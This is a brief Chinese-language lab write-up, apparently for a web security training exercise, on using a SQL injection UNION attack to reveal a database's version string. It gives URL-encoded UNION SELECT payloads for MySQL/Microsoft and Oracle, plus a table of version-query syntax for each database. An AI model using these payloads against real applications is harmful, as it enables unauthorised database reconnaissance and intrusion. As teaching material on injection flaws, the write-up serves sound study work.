

# 题意

实施UNION attack在页面上显示数据库版本字符串即可
# 解题思路
UNION attack的步骤与之前的一样，值得注意的是payload:
```
'+UNION+SELECT+@@version,+NULL--%20
```
这里的注释要加上%20代表空格才有用。
oracle的payload：
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
此外，由于oracle的SELECT语句必须指定一个table，所以确定列数和数据类型的时候需要如下payload
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
其中dual是Oracle内置的一个表。
# 知识点
## 查询数据库类型和版本

不同的数据库提供的查询方法都不一样，所以通常需要多次尝试不同的查询语句来获取数据库类型和版本
```
Microsoft, MySQL	SELECT @@version
Oracle	SELECT * FROM v$version
PostgreSQL	SELECT version()
```